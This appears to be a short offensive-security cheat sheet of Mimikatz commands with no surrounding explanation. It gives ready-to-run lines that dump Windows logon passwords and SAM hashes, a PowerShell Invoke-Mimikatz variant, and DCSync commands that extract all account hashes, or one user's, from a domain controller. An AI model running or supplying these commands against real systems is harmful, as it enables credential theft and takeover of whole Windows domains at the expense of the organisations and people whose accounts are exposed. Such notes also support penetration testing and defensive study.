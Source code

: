 ###
```
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
mimikatz "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam"
mimikatz "lsadump::sam"
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'
``
### dcsync
```
mimikatz lsadump::dcsync /domain:insomnia.io /all /csv
mimikatz lsadump::dcsync /domain:insomnia.io /user:John
```
